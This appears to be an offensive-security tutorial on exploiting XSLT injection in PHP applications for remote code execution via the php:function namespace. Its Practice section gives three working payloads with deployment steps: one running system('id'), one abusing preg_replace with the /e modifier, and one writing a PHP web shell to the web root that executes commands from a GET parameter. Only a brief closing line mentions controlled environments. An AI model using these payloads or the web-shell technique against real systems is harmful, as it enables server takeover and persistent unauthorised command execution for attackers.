 ```yaml
---
title: Remote Code Execution with PHP Wrapper Techniques
description: Learn to exploit PHP XSLT injection vulnerabilities for remote code execution
  using PHP wrappers and functions.
keywords:
- PHP remote code execution
- XSLT injection
- php:function
- PHP wrappers
- code execution
- web security
- cybersecurity
- exploitation techniques
- PHP vulnerability
- shell_exec XSLT
---
```


# Remote Code Execution with PHP Wrapper

## Context 

This article aims to instruct readers on how to exploit XSLT injection vulnerabilities within PHP environments to achieve remote code execution using PHP-specific wrappers and functions. It is assumed that the reader understands how XSLT processors function within web applications, has knowledge of PHP stream wrappers, grasps the concepts of remote code execution, and is familiar with basic XSLT injection techniques.

## Theory

### PHP XSLT Processor and Wrapper Integration

PHP's XSL extension supports XSLT transformations, which enables the use of certain PHP functions directly from XSLT stylesheets. This is achieved through the `php:function` wrapper, which can significantly increase the attack surface if not properly managed.

If user-supplied XSLT is processed without careful restrictions, attackers can invoke PHP functions that may cause harm, making this a potent vulnerability model.

### Abusable PHP Functions in XSLT Context

PHP functions such as `system`, `shell_exec`, `assert`, `include`, `file_put_contents`, and `preg_replace` can be executed within the context of XSLT by using the `php:function` wrapper. 

The basic attack sequence involves injecting XSLT that references `php:function` and provides attacker-controlled arguments to execute arbitrary code. Some applications attempt to restrict use by blacklisting certain functions, but attackers often bypass these restrictions by chaining less obvious functions, such as using `preg_replace` with the `/e` modifier for execution.

### Payload Construction for PHP Wrapper RCE

Payloads designed for PHP wrapper RCE need to be valid XSLT that call `php:function` using the correct namespace and function signature. The attack sequence involves defining the `php:function` namespace and calling the desired PHP function with the necessary input from the attacker.

## Practice

### Remote Code Execution via php:function in XSLT

To launch a Remote Code Execution attack using `php:function`, follow these steps:

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">
      <xsl:template match="/">
        <xsl:value-of select="php:function('system','id')"/>
      </xsl:template>
    </xsl:stylesheet>
    ```
    This payload utilizes the PHP `system()` function to execute the command `id`.

- **Execution:**
  - Submit this XSLT payload to the vulnerable endpoint that processes XSLT input.
  - Observe the output from the command execution to confirm success, such as the user identity.

### Remote Code Execution via preg_replace /e Modifier

Utilizing the deprecated `preg_replace` with the `/e` modifier can also lead to remote code execution:

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">
      <xsl:template match="/">
        <xsl:value-of select="php:function('preg_replace','/(.*)/e','system(\'id\')','test')"/>
      </xsl:template>
    </xsl:stylesheet>
    ```

- **Execution:**
  - Send this payload to the XSLT processing endpoint.
  - Check the response for execution results to determine if the attack was successful.

### File Write via file_put_contents for Web Shell Deployment

This method involves writing a PHP web shell to the server using `file_put_contents`:

- **Payload:**

    ```xml
    <?xml version="1.0"?>
    <xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">
      <xsl:template match="/">
        <xsl:value-of select="php:function('file_put_contents','/var/www/html/shell.php','<?php system($_GET[\'cmd\']); ?>')"/>
      </xsl:template>
    </xsl:stylesheet>
    ```

- **Execution:**
  - Deploy the payload to the endpoint.
  - Access the newly-created web shell via the browser. Use the `cmd` parameter to execute commands.

## Tools

- **curl**
- **Burp Suite** 

This concludes the guide on exploiting PHP wrapper vulnerabilities in XSLT to achieve remote code execution. The practices described should be executed in controlled environments to test and validate security postures.
